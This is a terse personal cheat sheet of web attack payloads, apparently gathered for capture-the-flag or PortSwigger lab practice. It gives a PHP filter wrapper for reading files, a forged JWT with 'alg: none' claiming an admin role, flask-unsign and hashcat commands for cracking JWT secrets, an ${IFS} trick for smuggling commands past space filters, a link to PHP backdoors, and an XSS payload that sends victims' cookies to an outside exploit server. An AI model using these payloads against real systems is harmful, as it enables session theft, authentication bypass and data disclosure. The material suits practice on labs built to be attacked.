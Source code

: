 space php use in filter
```php
php://filter/convert.iconv.utf-8.utf-16le/resource=file://
```
---

in JWT 
```JSON 
{
  "typ": "JWT",
  "alg": "none"
}
```
none or NoNe or noNE ...etc
Don't send the SIGNATURE send like this :

`eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJyb2xlIjoiYWRtaW4ifQ.`
and don't forget dot `.` 

---
to crack jwt use it command :
```bash
flask-unsign --unsign --no-literal-eval --wordlist /usr/share/wordlists/rockyou.txt --cookie eyJsb2dpbiI6dHJ1ZSwidXNlciI6Im1vaG5hZCIsImFsZyI6IkhTMjU2In0.Ywfvv703.uwZ8eXSTttoVjrXphTqPQprtQod81UmIo6xRfcWY3ao
```

---
```
in php " " == ${IFS}
```
---
[backdore php](https://sushant747.gitbooks.io/total-oscp-guide/content/webshell.html)

---
xss ngrpk paylode
```js
<script> var i=new Image(); i.src='https://exploit-0acc00b804bd4cfac0c1a75b017a007d.web-security-academy.net/exploit?='+document.cookie</script>
```

---
JWT Brute-forcing secret keys using hashcat

```bash
hashcat -a 0 -m 16500 <jwt> <wordlist>
```

---
[Algorithm confusion attacks](https://portswigger.net/web-security/jwt/algorithm-confusion)

Check /jwks.json or /.well-known/jwks.json
